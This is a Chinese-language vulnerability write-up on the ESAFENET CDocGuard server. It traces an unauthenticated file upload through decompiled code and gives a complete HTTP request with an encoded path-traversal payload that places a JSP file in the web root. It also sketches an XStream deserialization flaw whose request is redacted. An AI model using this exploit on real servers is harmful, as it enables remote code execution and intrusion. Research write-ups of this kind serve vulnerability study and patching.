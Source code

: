 
亿赛通漏洞浅析

- - -

# 亿赛通漏洞浅析

## 文件上传

某次拿到亿赛通安装包进行安装后，在 web.xml 文件中搜索 upload 相关的 servlet  
[![](assets/1698914716-a7a426594d8ef6235c616c54a5ea63b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195125-fc28d9e6-78ac-1.png)  
发现其中 UploadFileFromClientServiceForClient 存在文件上传漏洞，跟进源代码进行分析  
很明显存在文件写入操作  
[![](assets/1698914716-2975701fbe98eb2f025c312c384079f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195428-69671bee-78ad-1.png)  
关注文件名是否可控，是否对文件后缀有限制  
向上查看代码，发现 fileName 的获取步骤是：遍历 var12 数组，当其以 fileName 开头时，取其=号后面的值，相当于构造如下：fileName=1.jsp，即可使得 fileName 为 1.jsp  
[![](assets/1698914716-04a935edb669a624ee9f65f15644a6b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195921-17feea7e-78ae-1.png)  
接着向上查看代码，可知 var12 这个数组由 value\_decode 字符串对&字符进行切片得到  
[![](assets/1698914716-eb7a8f6ca0f04886b9e5fc49f8f5df6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200658-2864aab0-78af-1.png)  
而 value\_decode 对&字符进行切片前，经过了 CDGUtil.decode 与 substring  
req.getQueryString() 就是获取查询字符串，例如：客户端发送？a=b&c=d&e=f，通过 request.getQueryString() 得到的就是 a=b&c=d&e=f  
[![](assets/1698914716-7b293e8b9efe62f5e01af31cd2e7cc84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200737-3fbd6c88-78af-1.png)  
从上述分析可以得知，并没有对 fileName 有什么过滤操作，fileName 的值从 value\_decode 取得，构造 payload：  
?a=ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE，ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE 为 fileName=1.jsp&1 经过 CDGUtil.encode 加密  
[![](assets/1698914716-bab64733f279e39a110365a32077e2d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202428-99f546ce-78b1-1.png)  
发送后，发现其文件不是写在 web 目录下，而是在 C:\\fileDB\\uploaded\\store 目录  
[![](assets/1698914716-a1d8dcf45af0198e22120f5d828a263f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202217-4bca5e1c-78b1-1.png)  
因为安装包安装的路径都是一样的，所以我们可以通过目录穿越将其上传到 web 目录下：../../../Program Files (x86)/ESAFENET/CDocGuard Server/tomcat64/webapps/ROOT/1.jsp  
利用如下 payload：?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM  
[![](assets/1698914716-ea231e91e7595845ee8b21789e067445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202721-00fc584e-78b2-1.png)  
[![](assets/1698914716-6aa03a5ef0a47f5b893689c6e6b71496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202730-064eac66-78b2-1.png)

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
Content-Length: 26

<%out.println("123213");%>
```

## xstream 反序列化

亿赛通中使用到了 xstream 组件，而 xstream 1.4.9 是存在反序列化漏洞的  
[![](assets/1698914716-4556cc3ece6e8cddc190f32fb0ad0c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203127-93ca3510-78b2-1.png)  
GetValidateLoginUserService 中调用了 xstream 组件，fromXML 会反序列化 xml 格式内容，并且这里未对输入做校验  
[![](assets/1698914716-6826376935384f87b4c0150b7dbe11b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203536-28531a9e-78b3-1.png)  
这里传入的 xml 内容也是会做解密处理的，所以我们传入的内容也要先用 CDGUtil.encode 进行加密  
[![](assets/1698914716-b875819f19c65b1e8ad46961206ab1bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203617-4074f6a6-78b3-1.png)  
[![](assets/1698914716-463cb7bfb6ce3fdecb0bd9bdf3220636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203650-5491e6da-78b3-1.png)  
[![](assets/1698914716-0929d98784725aa8692d086f6c7effa5.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231102144737-b5b5f7e2-794b-1.jpg)

```plain
POST /CDGServer3/xxxxxxxxxxxx HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
ttt: whoami
Content-Length: 29724

poc
```
